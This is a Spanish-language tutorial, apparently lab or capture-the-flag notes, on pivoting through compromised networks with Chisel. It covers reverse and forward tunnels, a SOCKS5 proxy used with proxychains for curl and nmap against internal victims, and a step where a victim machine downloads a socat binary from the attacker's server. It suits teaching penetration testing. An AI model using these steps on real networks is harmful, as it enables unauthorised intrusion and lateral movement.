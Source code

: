 # Pivoting con Chisel – Versión Final

## Introducción

[Chisel](https://github.com/jpillora/chisel) es una herramienta escrita en Go que permite crear **túneles TCP/SOCKS reversos** y forwardings de puertos.
Es ideal para pivoting dentro de redes comprometidas, permitiendo:

* Traer servicios internos hacia tu host (reverse).
* Servir recursos de tu host hacia la red interna (forward).
* Pivotar tráfico TCP mediante SOCKS5 y Proxychains.

---

## Instalación

```bash
git clone https://github.com/jpillora/chisel
cd chisel
CGO_ENABLED=0 go build -a -ldflags="-s -w" .
upx chisel  # Opcional para reducir el tamaño del binario
```

> `CGO_ENABLED=0` asegura compatibilidad en máquinas con Go antiguo.

---

## Modo de Uso

Chisel se ejecuta como:

* **Servidor:** máquina atacante / host
* **Cliente:** máquina pivote o víctima

```bash
# Servidor
sudo ./chisel server -p 1234 [--reverse]

# Cliente
./chisel client <IP_SERVIDOR>:1234 [R:<PUERTO_LOCAL>:<IP_DESTINO>:<PUERTO_DESTINO> | L:<PUERTO_LOCAL>:<IP_DESTINO>:<PUERTO_DESTINO> | R:socks]
```

* `R:` → reverse, trae puertos internos hacia tu host
* `L:` → forward, abre un puerto en la pivote que apunta a tu host
* `R:socks` → levanta un proxy SOCKS5 para pivoting genérico

---

## Caso 1: Pivoting clásico – Reverse `R:`

**Objetivo:** Traer un servicio interno hacia nuestra máquina atacante.

### Ejemplo: HTTP interno

* **Interna:** `172.19.0.4:80`
* **Host:** `10.10.14.6:80`

#### Servidor (Host)

```bash
sudo ./chisel server --reverse -p 1234
```

#### Cliente (Pivote / Víctima)

```bash
./chisel client 10.10.14.6:1234 R:80:172.19.0.4:80
```

#### Flujo de datos visual

```
[Máquina Interna 172.19.0.4:80]
              │
              ▼
        [Chisel Client]
              │
              ▼
        [Chisel Server 10.10.14.6]
              │
              ▼
[Host Atacante: localhost:80]
```

* **Resultado:** accediendo a `http://localhost:80` en tu host, estás viendo el HTTP interno.

---

### Ejemplo: Redis interno

* **Interna:** `172.19.0.4:6379`
* **Host:** `10.10.14.6:8080`

```bash
./chisel client 10.10.14.6:1234 R:8080:172.19.0.4:6379
```

#### Flujo de datos

```
[Redis Interno 172.19.0.4:6379]
              │
              ▼
        [Chisel Client]
              │
              ▼
        [Chisel Server 10.10.14.6]
              │
              ▼
[Host Atacante: localhost:8080]
```

---

## Caso 2: Forward desde cliente – Forward `L:`

**Objetivo:** Abrir un puerto en la máquina pivote que apunte a un servicio en nuestro host.

### Ejemplo: Servir un binario (`socat`) desde host a la final

* **Host atacante:** `10.10.14.6:9001` (Python HTTP server)
* **Pivote:** `172.19.0.3`
* **Final:** `172.19.0.4`

#### Servidor (Host)

```bash
./chisel server -p 1234
python3 -m http.server 9001
```

#### Cliente (Pivote)

```bash
./chisel client 10.10.14.6:1234 3333:10.10.14.6:9001
```

* `3333` → puerto que se abre en la pivote
* `10.10.14.6:9001` → destino real en el host

#### Máquina final

```bash
curl http://172.19.0.3:3333/socat -o /tmp/socat
chmod +x /tmp/socat
```

#### Flujo de datos visual

```
[Host Atacante 10.10.14.6:9001]
              │
              ▼
        [Chisel Client en Pivote 172.19.0.3:3333]
              │
              ▼
       [Máquina Final 172.19.0.4]
```

* **Resultado:** la máquina final obtiene acceso al recurso de nuestro host a través del pivote.

---

## Caso 3: Pivoting SOCKS + Proxychains

**Objetivo:** Pivotar tráfico TCP de forma genérica.

#### Servidor

```bash
sudo ./chisel server --reverse -p 1234
```

#### Cliente (SOCKS)

```bash
./chisel client 10.10.14.6:1234 R:socks
```

* Levanta un proxy SOCKS5 en el host (puerto 1080 por defecto)

#### Proxychains

```ini
socks5 127.0.0.1 1080
```

#### Uso

```bash
proxychains curl http://172.19.0.4:80
proxychains nmap -p 1-1000 172.19.0.4
```

#### Flujo de datos visual

```
[Herramienta Host + Proxychains]
              │
              ▼
        [Chisel SOCKS5 Server]
              │
              ▼
        [Chisel Client en Pivote]
              │
              ▼
          [Red Interna Víctima]
```

---

## Diferencias clave: `R:` vs `L:`

| Sintaxis  | Dónde abre el puerto | Caso típico                                              |
| --------- | -------------------- | -------------------------------------------------------- |
| `R:`      | Host atacante        | Traer servicio interno hacia tu host                     |
| `L:`      | Víctima / pivote     | Servir binarios o recursos del host hacia la red interna |
| `R:socks` | Host atacante        | Pivoting genérico mediante proxy SOCKS5                  |

---

## Notas y recomendaciones

* `CGO_ENABLED=0` si la víctima tiene Go antiguo.
* Para puertos <1024 es necesario **root**.
* Forward `L:` → útil para pasar archivos o recursos a máquinas internas.
* Reverse `R:` → útil para traer servicios internos a tu host.
* SOCKS + Proxychains → pivoting **transparente** para cualquier herramienta TCP.
* Siempre documenta los puertos y rutas de flujo de datos para no perder la visibilidad de tus túneles.
